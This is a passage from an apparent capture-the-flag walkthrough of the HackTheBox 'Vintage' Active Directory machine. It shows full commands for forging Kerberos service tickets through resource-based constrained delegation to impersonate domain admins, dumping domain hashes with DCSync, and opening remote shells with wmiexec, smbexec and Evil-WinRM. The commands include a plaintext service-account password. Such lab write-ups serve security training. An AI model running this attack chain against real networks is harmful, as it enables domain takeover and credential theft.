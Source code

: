 5. Abuse `RBCD` by forging a **TGS ticket** to impersonate a high-privilege administrative user.

    We have two users in the **Domain Admins** group: **`Administrator`** and **`L.BIANCHI_ADM`**. If one user’s ticket does not work, we can attempt the other.
    ![](https://cdn-images-1.medium.com/max/1000/1*LErwvxcIk5I7_UbkH8h3Fw.png)

    + To request a TGS impersonating the **`Administrator`**:
        ```bash
        getST.py -dc-ip 10.10.11.45 -spn 'cifs/dc01.vintage.htb' -impersonate Administrator -k 'vintage.htb/svc_sql:Zer0the0n'
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*-23O3UqycSsxLzMI9EVI-A.png)
    + To request a TGS impersonating **`L.BIANCHI_ADM`**
        ```bash
        getST.py -dc-ip 10.10.11.45 -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -k 'vintage.htb/svc_sql:Zer0the0n'
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*1jUDKdM8sEVAdEmQRx-78Q.png)
6. Execute a DCSync attack to extract domain hashes

    Once we have impersonated a high-privilege user, use the forged TGS to perform a **DCSync** attack.
    ```bash
    secretsdump.py -k dc01.vintage.htb
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*LwGK8LV8B8d_0mdaaVPkVA.png)
    ![](https://cdn-images-1.medium.com/max/750/1*Lbz_LfX0VfScvVr2i-3-bw.png)

7. Connect to the target machine

    After testing, the **Administrator** ticket or hash could not be used for remote shell access, as it lacks remote management privileges. Instead, we can use the **L.BIANCHI_ADM** ticket to gain access.
    + Using wmiexec
        ```bash
        wmiexec.py -k -no-pass L.BIANCHI_ADM@dc01.vintage.htb -dc-ip 10.10.11.45
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*4n9n5oBVf6BHJrWKf1cqRQ.png)
        ![](https://cdn-images-1.medium.com/max/1000/1*bGGy73GcVrAy4Oub8TXBlQ.png)

    + Or using smbexec

        ```bash
        smbexec.py -k -no-pass L.BIANCHI_ADM@dc01.vintage.htb -dc-ip 10.10.11.45
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*L-xoKQR81KcRIx7Zal0YsA.png)
        ![](https://cdn-images-1.medium.com/max/1000/1*HYliUhyIS9oe9wVyVPmeUw.png)

    + If you prefer to use **Evil-WinRM**, you must request a service ticket for HTTP instead of CIFS

        ```bash
        getST.py -dc-ip 10.10.11.45 -spn 'HTTP/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -k 'vintage.htb/svc_sql:Zer0the0n'
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*7PBa0qZQLbO9QDbpW9yN2w.png)
